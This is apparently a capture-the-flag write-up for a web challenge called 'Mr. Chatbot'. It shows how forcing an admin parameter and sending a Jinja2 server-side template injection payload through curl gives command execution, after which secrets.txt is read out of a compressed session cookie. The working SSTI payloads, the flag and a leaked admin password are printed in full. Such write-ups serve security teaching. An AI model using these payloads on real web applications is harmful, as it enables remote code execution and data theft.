 ```yaml
---
title: "Mr. Chatbot"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: CIT{18a7fbedb4f3548f}
---
```

> "What's your prompt?"
>
> The flag is in secrets.txt
>
> Note: this web challenge instance will reset every 30 minutes. If a challenge is not responsive, you might need to wait until the next half hour.
>
> http://23.179.17.40:58005/

---

Upon accessing the page, we are asked to enter a name to join the chat.

![alt text](image.png)

After submitting a name, we are redirected to a `home` page. A quick look at the JavaScript `home.html` shows:

![alt text](image-1.png)

The `userName` variable is directly inserted into the page, suggesting a possible **SSTI** (Server-Side Template Injection).
However, testing common **SSTI** payloads failed because characters like `{}`, `<`, and `>` were filtered.

After some testing, I checked the cookies and try to decode them. The cookie `session` contained a `Base64` string:

```
eyJhZG1pbiI6IjAiLCJuYW1lIjoienR6In0.aA7zxg.zAnEcRAO3VHXg3UMqxY7BigC5jE
```

Decoding the first part (`Base64`) reveals:

```json
{"admin":"0","name":"ztz"}
```

Because when joining the chat, we will request to http://23.179.17.40:58005/ `POST` request with the `name` parameter. This suggested that the server stores the `name` and `admin` parameters in the cookie. Since the `POST` request accepts a `name`, I attempted to submit additional parameters.

**The idea**: forcefully set `admin=1` and inject a server-side payload.

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('sleep 10').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The server delayed its response by 10 seconds, confirming server-side code execution!

At this point, I attempted to directly read `secrets.txt`:

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The request succeeded, but the problem was:
Where can we see the output of `cat secrets.txt`?
When using the cookie, nothing visible appeared in the home chat.

After some experiments (including trying a reverse shell), I noticed that the cookie size changed depending on the command output.
This hinted that the command results were being hidden inside the cookie.

I decoded the cookie using CyberChef (**Base64** Decode (`A-Za-z0-9-_`) -> Zlib Inflate) and found an interesting field named uid, containing **another base64-encoded string**.

Example of the response after inflating:

```json
{"admin":"1","name":" self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ","uid":"YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7"}
```

Decoding the `uid` field gives:

```
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```
